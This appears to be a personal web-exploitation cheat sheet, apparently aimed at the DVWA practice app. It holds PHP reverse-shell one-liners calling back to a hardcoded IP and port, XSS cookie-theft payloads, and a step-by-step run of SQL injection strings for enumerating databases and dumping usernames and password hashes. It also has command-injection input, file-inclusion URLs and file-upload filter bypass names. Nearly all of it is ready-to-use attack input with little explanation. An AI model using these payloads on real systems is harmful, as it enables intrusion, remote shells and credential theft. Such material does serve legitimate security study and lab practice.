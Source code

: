# WEB

# Table of contents
1. [XSS](# cross site)
2. [asdasd](# asdasd)


PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


## XSS (CROSS SITE SCRIPTING)
-----------------------------

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`


## SQL INJECTION
----------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

MySQL delimiter: `#`
SQL delimiter: `--`

* "Always true" scenario:

```
%' or '0'='0
' or 1=1--
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


COMMAND INJECTION
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


LOCAL FILE INCLUSION
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

FILE UPLOAD
-----------

Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

shell.jpg.php (satisfies as check for jpg only)

shell.jpg.PhP (obfuscation)

shell.php;.jpg (sometimes can ignore whats after ";")

shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)

shell.php.test (defaults to first recognised extension ignoring "test")

shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)

.phtml (a commonly used php parsed extension often forgotten about!)

.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
